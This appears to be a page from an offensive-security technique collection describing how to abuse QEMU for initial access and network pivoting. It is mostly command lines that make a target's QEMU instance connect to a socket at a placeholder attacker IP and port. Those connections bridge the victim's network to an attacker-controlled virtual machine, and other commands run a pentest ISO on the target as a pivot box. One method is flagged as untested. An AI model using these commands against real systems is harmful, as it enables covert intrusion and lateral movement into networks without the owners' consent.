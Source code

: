 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - living-off-the-foreign-land
  - bring-your-own-island
  - cross-platform
---
```

# QEMU

## Virtual Machine as a Pivot Handler

Launch QEMU server to host a live ISO.

```
$ qemu-system-x86_64 -boot d -cdrom linux-pentest-os.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:<attacker_PORT>
```

Let the target establish connection to the attacker's virtual machine server to create a pivoting network to gain initial access.

```
C:\> .\qemu-system-x86_64.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic

C:\> .\qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

## QEMU Host as a Pivot Handler

TODO: Test this method.

Launch the QEMU as a reverse pivot handler.

```
$ qemu-system-x86_64 -m 512M -device e1000,netdev=n1,mac=52:54:00:12:34:56 -netdev socket,id=n1,listen=:<attacker_PORT> -nographic
```

On the client side establish connection to the attacker's server.

```
C:\> .\qemu-system-i386.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic

C:\> .\qemu-system-x86_64.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic
```

## Virtual Machine as a Payload

Deploy your own custom virtual machine as a pivot box.

```
C:\> .\qemu-system-x86_64.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &

C:\> .\qemu-system-i386.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &
```

---
## References

### Mandiant

- [Mandiant: Live off the Land? How About Bringing Your Own Island? An Overview of UNC1945](https://cloud.google.com/blog/topics/threat-intelligence/live-off-the-land-an-overview-of-unc1945)

### SecureList

- [SecureList: Network tunneling with… QEMU?](https://securelist.com/network-tunneling-with-qemu/111803/)

### Securonix

- [Securonix: CRON#TRAP - Emulated Linux Environments as the Latest Tactic in Malware Staging](https://www.securonix.com/blog/crontrap-emulated-linux-environments-as-the-latest-tactic-in-malware-staging/)